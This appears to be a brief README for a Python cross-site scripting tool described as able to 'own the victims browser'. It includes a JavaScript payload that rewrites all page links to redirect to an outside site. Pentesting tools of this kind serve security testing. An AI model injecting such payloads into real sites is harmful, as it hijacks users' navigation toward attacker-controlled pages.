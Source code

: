 # Developer-XSS
Developers xss is named as D-xss which is our python programming tool that helps to own the victims browser with given payload and can execute malicious javascript  if the site is vulnerable to cross site scripting attack
This tool helps the pentester or developer for finding the xss bug.

js payload for redirecting :
var anchors = document.getElementsByTagName("a");for (var i = 0; i < anchors.length; i++) {
    anchors[i].href = "http://www.mysite.com/?redirect=" 
}

